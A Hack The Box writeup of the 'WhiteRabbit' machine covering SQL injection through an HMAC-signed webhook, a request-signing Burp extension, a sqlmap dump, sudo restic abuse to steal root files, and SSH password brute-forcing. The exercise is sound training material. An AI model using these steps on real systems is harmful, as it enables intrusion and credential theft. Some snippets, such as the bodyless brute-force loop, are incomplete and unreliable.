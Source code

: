 
# HTB WhiteRabbit - Writeup (English)

> 🚨 **Follow the HTB grind in real-time — leaks, drops, and deep writeups**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Don't read. Join._

**Platform:** Linux  
**IP:** 10.10.11.63  
**Difficulty:** Insane  
**Author:** NoSec  

## Reconnaissance

```bash
22/tcp   open  ssh           OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http          Caddy httpd
2222/tcp open  ssh           OpenSSH 8.9p1 (protocol 2.0)
```

Service info: The OS is likely Linux-based, and the Caddy web server is running.

---

## Preparation

- **Edit hosts file**
    ```bash
    sudo nano /etc/hosts
    ```
    ```
    10.10.11.XX     whiterabbit.htb status.whiterabbit.htb
    ```

- **Clock skew fix (if needed)**
    ```bash
    sudo rdate -n whiterabbit.htb
    ```

---

## Subdomain & Web Exploration

**Subdomain discovery:**

By brute-forcing the `/status/` endpoint on `whiterabbit.htb` (e.g., with gobuster or ffuf), I discovered `status.whiterabbit.htb`, which runs Uptime Kuma. A bit more digging (on [redacted URL]) led me to `/status/temp/`, where I found new subdomains:

- GoPhish: `ddb0<link>.whiterabbit.htb`
- Wiki.js: `a668<link>.whiterabbit.htb`

**Webhook investigation:**

The Wiki.js endpoint (on [redacted URL]) revealed a webhook pointing to `28e<link>.whiterabbit.htb`, which looked suspicious.

---

## Exploitation

### SQLi in Webhook

The webhook required an `x-gophish-signature` HMAC signature. I extracted the secret key from:

Source: [redacted URL]  
Key: `3CWV<key>`

I generated the HMAC using CyberChef ([redacted URL]) and tried an SQLi payload:

```bash
{"campaign_id":2,"email":"test \$"","message":"Clicked Link"}
```

I got a MySQL error, confirming the endpoint is vulnerable!

---

### Burp Suite Automation

Manual testing was too slow, so I wrote a Burp extension that automatically adds the HMAC header:

```python
from burp import IBurpExtender, ISessionHandlingAction
from java.io import PrintWriter
from datetime import datetime
import hashlib, hmac

class BurpExtender(IBurpExtender, ISessionHandlingAction):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("HMAC Header")
        PrintWriter(callbacks.getStdout(), True).println("HMAC Header OK")
        callbacks.registerSessionHandlingAction(self)
        PrintWriter(callbacks.getStdout(), True).println("Session started")
        return

    def getActionName(self):
        return "HMAC Header"

    def performAction(self, currentRequest, macroItems):
        Secret = "3CWV<redacted>"
        stdout = PrintWriter(self._callbacks.getStdout(), True)
        requestInfo = self._helpers.analyzeRequest(currentRequest)
        BodyBytes = currentRequest.getRequest()[requestInfo.getBodyOffset():]
        BodyStr = self._helpers.bytesToString(BodyBytes)
        _hmac = hmac.new(Secret, BodyStr, digestmod=hashlib.sha256).hexdigest()
        headers = requestInfo.getHeaders()
        headers.add("x-gophish-signature: sha256=" + _hmac)
        message = self._helpers.buildHttpMessage(headers, BodyStr)
        currentRequest.setRequest(message)
        return
```

Installed via Burp's Custom Extensions feature:  
🔗 https://www.pentestpartners.com/security-blog/burp-hmac-header-extensions-a-how-to/

---

### SQLmap Attack

I automated the SQLi attack with sqlmap:

```bash
sqlmap -u [redacted URL] POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Link"}' -p email --proxy [redacted URL] --batch --dump --Level=5 --risk=3 -D temp -T command_log --flush
```

| ID  | Date                | Command                                                 |
|-----|---------------------|----------------------------------------------------------|
| 103 | 2024-08-30 14:40:41 | `uname -a`                                              |
| 110 | 2024-08-30 15:16:05 | `restic init --repo rest:[redacted URL]`               |

---

## Privilege Escalation

### Exploiting Restic

I found a Restic repository at [redacted URL] with the password: `ygcsv<redacted>`.  
Using it, I created a backup of `/root/`:

```bash
export RESTIC_PASSWORD=ygcsv<pass>
export RESTIC_REPOSITORY=rest:[redacted URL]
sudo /usr/bin/restic init -r .
sudo restic -r . backup /root/
sudo restic -r . dump latest /root/morpheus
```

I extracted an SSH private key for the user `morpheus` and logged in:

```bash
ssh morpheus@whiterabbit.htb -p 22
```

```bash
morpheus@whiterabbit:/home/morpheus# ls
user.txt
```

✅ User flag acquired!

---

### Neo Password Generation

I found a binary at `/opt/neo-password-generator/neopassword-generator` and analyzed it with Ghidra.  
It uses `gettimeofday()` as a seed:

- Seed formula: `tv_sec * 1000 + tv_usec / 1000`
- Then it generates a 20-character password using `rand() % 62`.

Since Neo executed it at `2024-08-30 14:40:42`, I knew the `tv_sec`, but had to bruteforce the microseconds (0–999).  
Here’s a sample Python brute-force script:

```python
from ctypes import CDLL
import datetime
libc = CDLL("libc.so.6")
seconds = datetime.datetime(2024, 8, 30, 14, 40, 42, tzinfo=datetime.timezone.utc).timestamp()
for i in range(0, 1000):
```

Generated passwords were saved:

```bash
python3 password_generator.py > passwords.txt
hydra -l neo -P passwords.txt ssh://whiterabbit.htb -t 20
```

Password found:
```nginx
WB<pass>
```

Once inside via SSH, I just used:

```bash
sudo -su
```

...and boom — got the root flag:

```bash
root@whiterabbit:~# ls
root.txt
```

---

### 🧠 Notes & Reflections – What I learned from this box

- **Webhook & SQLi abuse:** The vulnerabilities in Uptime Kuma were exciting to explore, especially with the custom HMAC handling.  
- **Restic exploitation:** Surprisingly, this backup tool enabled full privilege escalation.  
- **Binary analysis:** Brute-forcing a password generated via `gettimeofday()` required real brainwork.  
- **Automation:** Using Burp Suite and sqlmap saved tons of time, especially dealing with the HMAC headers.

---

### ⚠️ Mistakes, Pitfalls & Tips

- **Watch your clock skew!** If the system time is off, SSH and other steps can fail.  
- **Be patient with brute-force.** It took a while to find the `/status/temp/` endpoint — using the right wordlist matters.  
- **Document without spoilers.** Don’t give everything away so others can still enjoy the challenge.  
- **Double-check everything.** I verified the HMAC key twice before launching sqlmap.

---

### ✅ Summary

WhiteRabbit is a beautifully crafted box — it walks you through solid web exploitation and creative Linux privesc.  
The combination of Uptime Kuma, SQLi, Restic, and binary analysis makes this a real treat for any pentester.

Both flags captured — user and root — so I’m very satisfied. 🚀

---

**Highly recommended** for anyone who enjoys challenges and prefers creative Linux pwns over AD boxes.  
If you’ve got questions — hit me up! 💬

